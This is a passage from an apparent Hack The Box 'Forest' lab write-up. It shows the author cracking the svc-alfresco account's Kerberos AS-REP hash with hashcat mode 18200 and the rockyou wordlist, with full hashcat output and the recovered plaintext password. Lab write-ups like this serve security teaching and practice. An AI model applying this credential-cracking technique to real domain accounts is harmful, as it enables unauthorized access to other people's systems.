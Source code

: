 ```aaa
[-] invalid principal syntax
```

We have grabbed svc-alfresco's TGT, which contains a hash that can be passed to hashcat with mode number 18200 (Kerberos 5 AS-REP etype 23) to obtain a clear text password for the account: 

```aaa
┌─[baud@parrot]─[~/HTB/forest]
└──╼ $hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-8700 CPU @ 3.20GHz, 1024/2939 MB allocatable, 1MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=4 -D KERN_TYPE=18200 -D _unroll'
* Device #1: Kernel m18200_a0-pure.9ecc3688.kernel not found in cache! Building may take a while...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-alfresco@HTB.LOCAL:b8bd5c57c75931d7d091b56541ad66e6$41d7f5e6af236aeeaf22932c809de144b4a9d9e87202df108b332b5289620f214d9d8edc4728f9cda60560d7f718aa91788a65b463b0d75a20711b2b04da0c6c742b731ea0cc9fd1ca7197f9fb47a69a39a7a850c6705de5e6e0b5693d88953f8a87bde312cdc85ad4573223555aac5e95408e374842113c86aa3f611c23a2c9a5148a8af83e037bdea6dab6afc858f3d55e2806eb33f7a6cce84541b87be06ae2b7e92820f04db1e742ea6ffdbb75db68c2e81b3cf27d7e9003bd10b299461e3423fb72de3fdb1ab588b88d4075348e745943ead8c5e6bf9aea7fa82a19e407d2e910623641:s3rvice
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:b8bd5c57c75931...623641
Time.Started.....: Fri Dec  6 17:24:44 2019 (9 secs)
Time.Estimated...: Fri Dec  6 17:24:53 2019 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   445.6 kH/s (6.88ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4087808/14344385 (28.50%)
```